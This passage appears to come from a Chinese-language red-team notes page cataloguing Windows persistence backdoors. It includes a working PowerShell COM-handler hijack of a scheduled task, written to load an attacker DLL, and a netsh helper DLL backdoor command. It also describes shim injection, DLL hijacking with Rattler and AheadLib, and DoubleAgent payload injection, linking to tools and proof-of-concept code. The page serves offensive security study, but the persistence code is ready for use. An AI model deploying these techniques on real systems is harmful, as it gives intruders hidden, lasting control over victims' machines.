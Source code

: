 ```
[Parameter(Mandatory = $True)]
[ValidateNotNullOrEmpty()]
[String]
$Command,

[Switch]
$Force
)
$ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
New-Item $ScheduledTaskCommandPath -Force |
New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
}else{
Write-Verbose "Key already exists, consider using -Force"
exit
}

if (Test-Path $ScheduledTaskCommandPath) {
Write-Verbose "Created registry entries to hijack the UserTask"
}else{
Write-Warning "Failed to create registry key, exiting"
exit
} 
}
Invoke-ScheduledTaskComHandlerUserTask -Command "C:\test\testmsg.dll" -Verbose
```
##### 15、[Netsh](https://3gstudent.github.io/3gstudent.github.io/Netsh-persistence/) 
```
netsh add helper c:\test\netshtest.dll
```
后门触发：每次调用netsh
>dll编写:https://github.com/outflanknl/NetshHelperBeacon

##### 16、[Shim](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84Application-Compatibility-Shims/) 
常用方式：
InjectDll
RedirectShortcut
RedirectEXE
##### 17、[DLL劫持](https://3gstudent.github.io/3gstudent.github.io/DLL%E5%8A%AB%E6%8C%81%E6%BC%8F%E6%B4%9E%E8%87%AA%E5%8A%A8%E5%8C%96%E8%AF%86%E5%88%AB%E5%B7%A5%E5%85%B7Rattler%E6%B5%8B%E8%AF%95/)
通过Rattler自动枚举进程，检测是否存在可用dll劫持利用的进程
使用：Procmon半自动测试更精准，常规生成的dll会导致程序执行报错或中断，使用AheadLib配合生成dll劫持利用源码不会影响程序执行
工具：https://github.com/sensepost/rattler
工具：https://github.com/Yonsm/AheadLib
##### 18、[DoubleAgent ](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84Application-Verifier(DoubleAgent%E5%88%A9%E7%94%A8%E4%BB%8B%E7%BB%8D)/)
编写自定义Verifier provider DLL
通过Application Verifier进行安装
注入到目标进程执行payload
每当目标进程启动，均会执行payload，相当于一个自启动的方式
POC : https://github.com/Cybellum/DoubleAgent
##### 19、[waitfor.exe ](https://3gstudent.github.io/3gstudent.github.io/Use-Waitfor.exe-to-maintain-persistence/)